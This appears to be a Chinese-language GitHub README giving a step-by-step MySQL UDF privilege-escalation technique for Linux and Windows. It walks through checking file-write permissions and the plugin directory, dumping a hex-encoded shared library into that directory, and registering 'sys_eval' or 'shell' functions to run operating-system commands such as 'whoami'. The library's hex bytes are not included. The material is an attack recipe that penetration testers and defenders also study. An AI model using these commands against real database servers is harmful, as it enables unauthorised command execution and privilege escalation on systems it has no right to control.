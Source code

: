 # MySQL UDF 提权

> 尝试UDF提权之前，先确保MySQL有读写文件的权限

```SQL
SHOW VARIABLES LIKE 'sec%';
# or
SHOW VARIABLES LIKE 'secure_file_priv';
```
如果查询到 secure_file_priv 的值为NULL，则不可以读写文件

### Linux

> https://github.com/mysqludf/lib_mysqludf_sys

udf.so.txt 是自己的编译的

udf2.so.txt 来自网友编译

> 使用方法

首先通过SQL语句查询到MySQL的plugin位置，如：/usr/lib64/mysql/plugin/

```SQL
SHOW VARIABLES LIKE '%plugin%';
#或者
SELECT @@plugin_dir;
```

然后写UDF到插件目录、创建函数、执行命令

```SQL

SELECT unhex(' [udf.so.txt]|[udf2.so.txt] ') INTO DUMPFILE "/usr/lib64/mysql/plugin/udf.so"; #写入udf.so

DROP FUNCTION sys_eval; # 如果存在函数先drop掉

CREATE FUNCTION sys_eval RETURNS string SONAME 'udf.so'; # 创建函数

SELECT sys_eval ('whoami'); # 执行命令

```


### Windows

方法与上面类似，可以使用tools的UDF提权脚本，或者上传dll文件，命令执行函数名为 shell

使用方法：

```SQL

SELECT shell('cmd','whoami')

```

